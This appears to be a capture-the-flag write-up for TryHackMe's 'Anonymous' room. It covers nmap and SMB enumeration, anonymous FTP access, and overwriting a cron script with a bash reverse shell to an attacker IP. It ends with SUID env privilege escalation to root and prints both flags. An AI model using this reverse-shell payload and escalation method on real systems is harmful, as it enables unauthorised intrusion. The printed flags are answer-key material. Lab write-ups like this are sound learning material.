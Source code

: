 # Room: Anonymous

## General Info
- **Room link:** [Anonymous](https://tryhackme.com/room/anonymous)


## Description

Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

## Provided Files / Links
- [x] Target Machine IP (10.10.56.61)

## Enumeration / Recon

- Port Enumeration:
`nmap -sV 10.10.56.61 -p- -T5`

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```
There are 2 smb services on port 139 and 445.

I first use enum4linux to try to get usernames: `enum4linux -U -o 10.10.56.61`

```
 ========================================( Users on 10.10.56.61 )========================================

index: 0x1 RID: 0x3eb acb: 0x00000010 Account: namelessone      Name: namelessone       Desc: 
```

I found the username `namelessone`.

I then try to get the shares on the target SMB machine, using an nmap script: `nmap -p 445 --script=smb-enum-shares.nse 10.10.56.61`.

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.56.61\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (anonymous server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.56.61\pics: 
|     Type: STYPE_DISKTREE
|     Comment: My SMB Share Directory for Pics
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\namelessone\pics
|     Anonymous access: READ
|     Current user access: READ
|   \\10.10.56.61\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

The share on the user's computer is called `\pics`.

I then continue my research about the smb protocols: `nmap -p 139,445 --script=smb-os-discovery,smb-protocols 10.10.56.61`.

```
Host script results:
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2:0:2
|     2:1:0
|     3:0:0
|     3:0:2
|_    3:1:1
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-05-20T08:57:49+00:00
```

I went to see the content of the /pics share (`smbclient //10.10.56.61/pics -N`). There were 2 jpg files but nothing relevant in them (I checked the content with strings and exiftool).

I then tried to access the machine through ftp and I was able to log in as anonymous.

I found a clean.sh file that was actually running on a CRON. 

I modified the script to get a reverse shell:

```
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.9.1.194/1337 0>&1
```

I put a listener on port 1337: `nc -nlvp 1337`

And I was able to get the reverse shell.

### Target machine exploitation

I stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`.

I get the flag in the user.txt file: **90d6f992585815ff991e68748c414740**

Then I downloaded and ran linpeas.sh in the /tmp directory.

I found this specific information in the "Files with Interesting Permissions" section:

`-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env`

I then went to https://gtfobins.github.io/gtfobins/env/ to see if I can exploit this permission. I tried exploiting this one `/usr/bin/env /bin/sh -p` and I actually got root access.

I found the root.txt file (in /root/root.txt): **4d930091c31a622a7ed10f27999af363**.
